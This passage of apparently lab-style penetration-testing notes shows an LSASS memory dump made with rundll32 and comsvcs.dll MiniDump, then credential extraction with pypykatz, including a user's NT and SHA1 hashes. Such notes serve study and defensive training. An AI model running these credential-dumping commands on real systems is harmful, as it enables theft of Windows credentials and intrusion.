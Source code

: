 ```powershell
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

#### Finding LSASS PID in PowerShell

```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

#### Creating lsass.dmp using PowerShell

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`)

## Using Pypykatz to Extract Credentials
* Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python

#### Running Pypykatz
* We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/peter/Documents/lsass.dmp`) stored on our attack host

```sh
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
```